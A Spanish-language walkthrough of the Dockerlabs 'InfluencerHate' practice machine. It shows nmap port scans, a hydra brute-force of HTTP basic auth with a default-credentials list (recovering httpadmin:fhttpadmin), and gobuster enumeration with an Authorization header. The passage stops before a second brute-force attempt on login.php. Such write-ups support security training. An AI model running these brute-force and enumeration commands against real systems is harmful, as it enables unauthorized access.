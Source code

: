 # 🖥️ Writeup - InfluencerHate 

**Plataforma:** Dockerlabs  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip influencerhate.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh influencerhate.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-09 18:26 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 86:ba:77:96:38:4e:54:22:d9:09:f1:03:17:bd:52:43 (ECDSA)
|_  256 28:b4:8b:66:08:67:77:f9:b0:f6:c2:94:58:34:dd:47 (ED25519)
80/tcp open  http    Apache httpd 2.4.62
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Zona restringida
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: 401 Unauthorized
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.84 seconds
```

Cuando entramos por el puerto 80 vemos que no estamos autorizados para ver la pagina ya que requiere de un usuario y contraseña.

Vamos a probar de aplicar fuerza bruta a el panel de login, teniendo en cuenta que el formato del diccionario que le tenemos que pasar es usuario:contraseña.

Tenemos un diccionario por defecto con este formato llamado ftp-betterdefaultpasslist.txt . Si no nos encuentra credenciales, tambien podemos modificar cualquier otro diccionario para aplicarle este formato.

# HYDRA

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 172.17.0.2 http-get / -t 64
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-09 18:40:12
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 66 login tries, ~2 tries per task
[DATA] attacking http-get://172.17.0.2:80/
[80][http-get] host: 172.17.0.2   login: httpadmin   password: fhttpadmin
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-09 18:40:23
```
Encontramos las credenciales httpadmin : fhttpadmin

Una vez dentro nos encontramos con una default page de apache2.

# GOBUSTER

Vamos a buscar directorios o archivos ocultos en la pagina web con gobuster, pero para eso tambien tenemos que proporcionar las credenciales en el comando.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html -H "Authorization: Basic aHR0cGFkbWluOmZodHRwYWRtaW4=" -k -t 50
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10701]
/login.php            (Status: 200) [Size: 2798]
/server-status        (Status: 403) [Size: 275]
```

Existe un login.php, asi que vamos a volver a intentar un ataque de fuerza bruta.

```bash

```